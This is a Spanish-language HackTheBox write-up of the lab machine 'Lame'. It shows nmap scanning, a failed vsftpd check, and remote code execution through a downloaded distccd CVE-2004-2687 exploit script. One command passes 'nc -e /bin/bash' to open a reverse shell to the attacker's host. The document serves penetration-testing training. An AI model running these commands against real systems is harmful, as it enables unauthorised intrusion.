










HackTheBox
Easy
Linux
distccd
Samba
CVE-2004-2687
SMB
Lame
distccd vulnerable a RCE (CVE-2004-2687); tambien explotable via Samba 3.0.20 usermap_script.
cat4clysm
Herramientas utilizadas
nmap
searchsploit
netcat
Scanning
root@kali:~$
nmap -sC -sV -p21,22,139,445,3632 -Pn -n 10.10.10.3 -oN targeted
FTP - vsftpd 2.3.4 (Backdoor)
root@kali:~$
ftp 10.10.10.3
# anonymous login
root@kali:~$
searchsploit vsftpd 2.3.4
El exploit del backdoor de vsftpd 2.3.4 no funciona en este caso.
distccd - CVE-2004-2687 (RCE)
root@kali:~$
wget https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/.../distccd_rce_CVE-2004-2687.py
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -c "whoami"root@kali:~$
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -c "nc -e /bin/bash 10.10.14.11 4547"

Samba 3.0.20 - usermap_script (Alternativa)



Flags


Lecciones aprendidas
- distccd sin autenticacion permite RCE directo en sistemas Linux.
- Samba 3.0.20 es vulnerable al exploit usermap_script que da shell root inmediato.
- Siempre comprobar todas las versiones de servicios, no solo las mas obvias.